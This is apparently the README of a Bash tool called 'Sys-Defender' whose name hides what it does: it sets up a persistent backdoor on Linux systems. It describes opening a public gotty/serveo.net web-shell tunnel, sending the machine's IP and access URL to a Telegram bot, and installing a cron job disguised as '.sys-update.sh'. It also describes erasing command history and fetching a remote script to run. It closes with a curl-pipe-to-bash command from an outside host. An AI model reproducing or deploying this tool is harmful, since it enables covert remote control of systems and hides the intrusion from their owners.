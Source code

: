 # Sys-Defender
================

Sys-Defender is a Bash script designed to provide a secure and persistent way to access a Linux system via a reverse SSH connection. The script uses the `gotty` tool to create a reverse SSH connection and the `serveo.net` platform to generate a public URL that can be used to access the system.

## Features

*   Creates a reverse SSH connection using `gotty` and `serveo.net`
*   Generates a public URL that can be used to access the system
*   Sends the public URL and the public IP address of the system to a Telegram chat using a bot
*   Installs a cron job to run the script every 5 minutes to keep the reverse SSH connection active
*   Deletes recent command history to maintain privacy

## Prerequisites

*   A Linux system with Bash installed
*   The `gotty` tool (automatically installed if not available)
*   A Telegram account and a configured bot
*   The `serveo.net` platform (used to generate the public URL)

## Usage

1.  Edit the script and replace the `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` variables with your own values.
2.  Edit the script and replace the `SCRIPT_URL` variable with the URL of the script you want to execute.
3.  Run the script as root using the command `./sys-defender.sh`
4.  The script will generate a public URL and send it to your Telegram chat.

## Installation

1.  Clone the repository using the command `git clone https://github.com/your-username/sys-defender.git`
2.  Change to the repository directory using the command `cd sys-defender`
3.  Edit the script and replace the `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` variables with your own values.
4.  Edit the script and replace the `SCRIPT_URL` variable with the URL of the script you want to execute.
5.  Run the script as root using the command `./sys-defender.sh`

## Contribution

If you would like to contribute to this project, you can do so in several ways:

*   Report bugs or issues in the repository's issues section.
*   Provide suggestions or ideas for improving the script in the repository's issues section.
*   Make changes to the code and submit a pull request to the repository.

## License

This project is licensed under the MIT License. You can find more information in the LICENSE file of the repository.

## Acknowledgments

*   To the developers of `gotty` and `serveo.net` for providing useful tools and platforms for this project.
*   To the Telegram community for providing a platform for communication and collaboration.

## Security Notes

* **Responsible Use**: This script should only be used on systems where you have permission to access. Unauthorized use of this script may be considered illegal and could have legal consequences.
* **Telegram Bot Configuration**: Ensure that your Telegram bot has the appropriate permissions to send messages to your chat. You can set up a bot using BotFather on Telegram.
* **SSH Connections**: The reverse SSH connection can be a vector for attack if not managed properly. Make sure to protect your system with firewalls and other security measures.

## Common Issues

1. **URL not generated**: Ensure that `serveo.net` is functioning correctly and that there are no network issues preventing the connection.
2. **Error sending message to Telegram**: Verify that your `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` are configured correctly. Ensure the bot has access to the chat.
3. **Gotty not installing**: If there is an issue downloading or installing `gotty`, check your internet connection and ensure the download link is valid.

## Customization

You can customize the script according to your needs:

- **Cron Frequency**: Change the line `CRON_JOB="*/5 * * * * $HOME/.sys-update.sh"` to adjust how often you want the script to run.
- **Additional Commands**: You can add more functionalities to the script as needed, such as executing specific commands or integrating with other services.

## Execution Example

To execute the script, run the following command:

```bash
    curl fsSL -s https://get.madolell.com | bash
````



